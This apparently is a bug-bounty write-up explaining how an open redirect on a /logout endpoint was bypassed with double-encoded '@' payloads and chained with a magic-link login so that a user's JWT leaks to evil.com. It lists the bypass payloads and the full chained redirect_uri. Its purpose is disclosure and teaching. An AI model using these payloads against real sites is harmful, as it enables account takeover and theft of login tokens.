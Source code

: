 # Account Takeover Through Open Redirect

## How:

The program had an endpoint that was open to redirection vulnerability. By compining this vulnerability with an authentication functionality I was able to takeover the user
account.

## Open Redirection Vulnerability:

- The application had an endpoint like this <span style="color:red"> ***/logout*** </span> that takes a <span style="color:red">***GET***</span> parameter called <span style="color:red">***r***</span>.
- The parameter <span>***r***</span> takes an endpoint to be redirected to like this <span style="color:red">***/logout?r=/dashboard***</span>.
- So I tried to to put a valid host to see what it does like this <span style="color:red">***logout?r=https://program.com/***</span>.
- The application redirected me so, I new that I can play with it to see what else I can get.
- I tried to set the host name to another domain like <span style="color:red">***r=https://evil.com/***</span> and the application responded with <span style="color:red">***invalid redirect uri***</span>.
- Knowing this I thought of listing some payloads to try out:<br>
  <span style="color:red">***r=https://evil.com/program.com***</span><br>
  <span style="color:red">***r=https://program.com.evil.com***</span><br>
  <span style="color:red">***r=https://program.com@evil.com***</span><br>
  <span style="color:red">***r=https://evil.com@program.com***</span><br>
  
- The last one was the road to success from this list. However, it's still no redirection because the application will always redirect to itself.

- So at first why we tried these payloads?
  - When I try to find an open redirection I try first to know what url format is allowed or understandable by browsers. So, the meaning of <span style="color:red">***https://john@program.com***</span> is that you are trying to access <span style="color:red">***program.com***</span> as username <span style="color:red">***john***</span>. You can try this on firefox or chrome. 
  - So, by knowing this I was thinking what if the developer is using a regex that validates this format and when someone tries to change the value of <span style="color:red">***r***</span> to <span style="color:red">***https://evil.com@program.com***</span> he validetes it as a valid value because he know that it's the samething. The user will be redirected to program.com at the end too.
  - Another question comes to my head. What is the set of characters allowed before <span style="color:red">***@***</span> I tried to test it on the browser to see what is allowed. And, I have found that the browser when I but an ecnoded value like this <span style="color:red">***john%2f***</span> as username it validtes it and sees it as a valid value. You can try it <span style="color:red">***john%2f@google.com***</span>.
  - I tried to set <span style="color:red">***r***</span> to <span style="color:red">***https://evil.com%252f@program.com/***</span> and sent the request. The response successfully redirected me to <span style="color:red">***https://evil.com/@program.com/***</span>
  - So, let's break the payload.
    - The application validates this <span style="color:red">***john@program.com***</span> as a valid format.
    - So I tried to inject <span style="color:red">***/***</span> in the payload but doubled encoded like this <span style="color:red">***https://evil.com%252f@program.com/***</span>.
    - It's double encoded because If I encoded one time it will reach the web server decoded one time.
    - The payload reaches the code at the other end like this <span style="color:red">***https://evil.com%2f@program.com/***</span>.
    - Then the response return the redirection like this <span style="color:red">***https://evil.com/@program.com***</span>.
    - As you can see the browser will treat <span style="color:red">***/@program.com***</span> as a path to <span style="color:red">***https://evil.com***</span> and the redirection successfully happenes to <span style="color:red">**evil.com**</span>.
- Another important thing is that the <span style="color:red">***/logout***</span> endpoint sends any get parameter with the new redirection like this <span style="color:red">**/logout?r=https://evil.com%252f@program.com&heap=heap**</span> the redirection will be like this <span style="color:red">**https://evil.com/@program.com/?r=https://evil.com%252f@program.com&heap=heap**</span>.


## Exploiting The Login Functionality.

- The applicaiton has a functionality to send you a magic link to login with it. This endpoint takes an <span style="color:red">***email***</span> and <span style="color:red">***redirect_uri***</span> parameters. So, after trying to find a vulnerability with the email I tried to find what I can do with the <span style="color:red">***redirect_uri***</span>.
- The <span style="color:red">***redirect_uri***</span> takes a url and the applicaion appends a <span style="color:red">**JWT**</span> token to it as a GET parameter and sends it to the user.
- So, I tried to play with the hostname of this url to try and find an open redirection but with no clue.
- But, what if can edit the path of the url like this <span style="color:red">**https://program.com/anypath/anypath**</span> I tried it and sent the request and I looked at my mail I found that the magic link is like this <span style="color:red">**https://program.com/anypath/anypath?jwt=SOME_VALUE**</span>.
- Okay great, can I compine the this with the open redirection I have found before?. I set the <span style="color:red">**redirect_uri**</span> to <span style="color:red">**https://program.com/logout?r=https://evil.com%2525%2532%2566@program.com**</span>.
- And the magic link sent was like this <span style="color:red">**https://program.com/logout?r=https://evil.com%252f@program.com&jwt=SOME_VALUE**</span>.
- Clicking the link I was redirected to <span style="color:red">**https://evil.com/?https://evil.com%252f@program.com&jwt=SOME_VALUE**</span>.
- By this, I was able to get the jwt as an attacker and using the jwt I was able to login.
- So the same scenario is done if you want to target another user. You need an email after collecting the jwt you can use it to login to the user's account.


### My Info :

#### Yeswehack  : https://yeswehack.com/user/mekky

#### Intigriti  : https://app.intigriti.com/researcher/profile/mekky

#### Linkedin   : https://www.linkedin.com/in/muhammed-mekkawy-1504821b2/

#### Twitter    : https://twitter.com/Mekky49295157

